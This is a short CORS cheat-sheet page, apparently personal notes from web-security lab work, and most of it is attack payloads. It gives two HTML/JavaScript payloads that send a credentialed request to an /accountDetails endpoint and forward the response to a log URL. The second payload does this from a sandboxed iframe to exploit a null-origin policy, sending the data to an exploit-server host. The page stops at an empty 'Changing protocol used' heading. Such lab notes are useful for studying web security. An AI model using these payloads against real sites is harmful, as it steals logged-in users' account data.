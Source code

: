 ```yaml
---
description: Super Basic CORS - mostly payloads from labs.
---
```


# 🏔 CORS

### Check with different origin values

* Any origin is reflected in ACAO

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

* null

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a080064041d0c10c265209b006a0081.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-0a740073042c0cd5c2eb1ff7019d00f9.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

* Changing protocol used

